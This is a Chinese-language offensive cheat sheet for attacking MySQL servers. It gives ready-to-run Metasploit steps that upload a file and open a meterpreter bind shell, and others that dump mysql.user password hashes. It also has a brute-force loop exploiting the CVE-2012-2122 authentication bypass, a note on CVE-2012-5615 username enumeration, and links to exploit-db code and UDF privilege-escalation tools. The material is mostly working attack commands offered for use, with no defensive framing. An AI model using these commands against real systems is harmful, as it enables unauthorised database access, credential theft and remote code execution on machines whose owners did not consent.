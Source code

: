 **MSF 上传文件执行**
```bash
use exploit/windows/mysql/scrutinizer_upload_exec
set RHOST [ip]
set USERNAME [user]
set PASSWORD [pass]
set payload windows/meterpreter/bind_tcp
set RHOST [ip]
set LPORT 4444
exploit
```

**MSF 获取 mysql.user 的 hash**
```bash
use auxiliary/scanner/mysql/mysql_hashdump
set RHOSTS [ip]
set USERNAME [user]
set PASSWORD [pass]
set THREADS 20
exploit
```

**CVE-2012-2122 Mysql 身份认证绕过漏洞**
- 简介

    当连接 MariaDB/MySQL 时，输入的密码会与期望的正确密码比较，由于不正确的处理，会导致即便是 memcmp() 返回一个非零值，也会使 MySQL 认为两个密码是相同的。也就是说只要知道用户名，不断尝试就能够直接登入 SQL 数据库。

- POC | Payload | exp
    ```
    for i in `seq 1 1000`; do mysql -uroot -pwrong -h your-ip -P3306 ; done
    ```

**CVE-2012-5615 Oracle MySQL Server 5.5.19 用户名枚举漏洞**
- 简介

    MySQL 5.5.19 以及其他版本和 MariaDB 5.5.28a，5.3.11，5.2.13，5.1.66 以及其他版本中存在漏洞，该漏洞源于不同时间延迟产生不同错误消息取决于用户名是否存在。远程攻击者利用该漏洞枚举有效的用户名。

- POC | Payload | exp
    - [MySQL - Remote User Enumeration](https://www.exploit-db.com/exploits/23081)
    - [MySQL 5.1/5.5 (Windows) - 'MySQLJackpot' Remote Command Execution](https://www.exploit-db.com/exploits/23073)

### Mysql提权

**相关文章**
- [Windows下三种mysql提权剖析](https://xz.aliyun.com/t/2719)

**UDF 提权**
- 相关文章
    - [Command execution with a MySQL UDF](http://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html)

- POC | Payload | exp
    - [mysqludf/lib_mysqludf_sys](https://github.com/mysqludf/lib_mysqludf_sys)
    - [T3st0r-Git/HackMySQL](https://github.com/T3st0r-Git/HackMySQL) - Using To MySQL Elevate Privileges.
